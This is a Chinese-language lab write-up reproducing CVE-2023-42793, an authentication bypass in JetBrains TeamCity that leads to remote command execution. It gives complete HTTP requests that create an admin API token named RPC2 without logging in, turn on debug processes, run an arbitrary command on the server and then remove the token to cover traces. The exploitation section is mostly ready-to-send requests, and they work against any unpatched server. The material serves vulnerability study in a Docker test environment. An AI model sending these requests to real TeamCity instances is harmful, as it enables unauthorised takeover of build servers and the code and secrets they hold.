 # Jetbrains TeamCity 认证绕过导致远程命令执行漏洞 CVE-2023-42793

## 漏洞描述

TeamCity 是 JetBrains 的构建管理和持续集成服务器。

在 TeamCity 2023.05.3 版本及以前，存在一处由于逻辑错误导致的认证绕过漏洞，攻击者利用该漏洞最终可以在目标服务器上执行任意命令。

参考链接：

- [https://www.sonarsource.com/blog/teamcity-vulnerability/](https://www.sonarsource.com/blog/teamcity-vulnerability/)
- [https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/](https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/)

## 环境搭建

Vulhub 执行如下命令启动一个 TeamCity 2023.05.3 服务器：

```
docker compose up -d
```

服务启动后，需要打开`http://your-vps-ip:8111/`并执行一系列初始化操作。

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240508143056122.png)

## 漏洞复现

造成这个漏洞的原因是 TeamCity 内部对于所有以`/RPC2`为后缀结尾的请求都不认证权限。

而正好添加API Token的请求的结尾参数是Token的名字，我们可以添加一个名字为`RPC2`的API Token：

```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240508143109849.png)

这样就成功绕过权限认证生成了一个新的Token：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-02-26T06:26:36.980Z" value="eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw"/>
```

使用该Token来开启调试模式：

```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240508143130912.png)

开启调试模式后，就可以执行任意命令了：

```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240508143136487.png)

利用结束后，最好能够删除名为`RPC2`的API Token，避免对业务造成问题：

```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
